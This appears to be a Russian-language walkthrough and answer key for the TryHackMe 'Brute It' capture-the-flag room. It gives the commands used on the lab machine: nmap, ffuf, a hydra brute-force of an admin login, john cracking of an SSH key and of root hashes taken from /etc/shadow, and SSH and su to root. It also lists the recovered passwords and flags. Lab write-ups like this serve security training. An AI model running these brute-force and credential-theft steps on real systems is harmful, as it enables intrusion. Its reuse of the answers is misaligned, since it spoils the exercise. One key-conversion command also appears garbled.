 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Brute It](https://tryhackme.com/r/room/bruteit) 

Всего 4 заданий:
## Задание 1
В этом блоке вы узнаете о:
- Грубая сила
- Взлом хэша
- Повышение привилегий

Подключитесь к сети TryHackMe и разверните машину.

### Ответьте на вопросы ниже
Разверните машину
```commandline
Ответ не нужен
```

## Задание 2
Прежде чем атаковать, давайте получим информацию о цели.
### Ответьте на вопросы ниже
Поиск открытых портов с помощью nmap.
Сколько портов открыто?
```commandline
nmap -sC -sV -oN nmap/initial 10.10.204.93
```
```commandline
2
```
Какая версия SSH используется?
```commandline
OpenSSH 7.6p1
```
Какая версия Apache используется?
```commandline
2.4.29
```
Какой дистрибутив Linux используется?
```commandline
Ubuntu
```
Поиск скрытых каталогов на веб-сервере.
Что такое скрытый каталог?
```commandline
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://10.10.204.93:80/FUZZ
# http://10.10.204.93/admin
```
```commandline
/admin
```

## Задание 3
Найдите форму для получения оболочки по SSH.

### Ответьте на вопросы ниже
Какой у вас пользователь:пароль панели администратора?
```commandline
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.94.46 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
```
```commandline
admin:xavier
```
Взломайте ключ RSA, который вы нашли.
Какова парольная фраза закрытого ключа RSA Джона?
```commandline
ssh2 id_rsa > RSAkey.txt
john RSAkey.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```commandline
rockinroll
```
пользователь.txt
```commandline
chmod 600 id_rsa
ssh -i id_rsa john@10.10.204.93
```
```commandline
THM{a_password_is_not_a_barrier}
```
Веб-флаг

```commandline
THM{brut3_f0rce_is_e4sy}
```

## Задание 4
Теперь нам нужно расширить наши привилегии.
### Ответьте на вопросы ниже
Найдите форму для повышения привилегий.
Какой пароль root?
```commandline
sudo -l
cat /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
```commandline
football
```
корень.txt
```commandline
su root
cd /root
cat root.txt
```
```commandline
THM{pr1v1l3g3_3sc4l4t10n}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
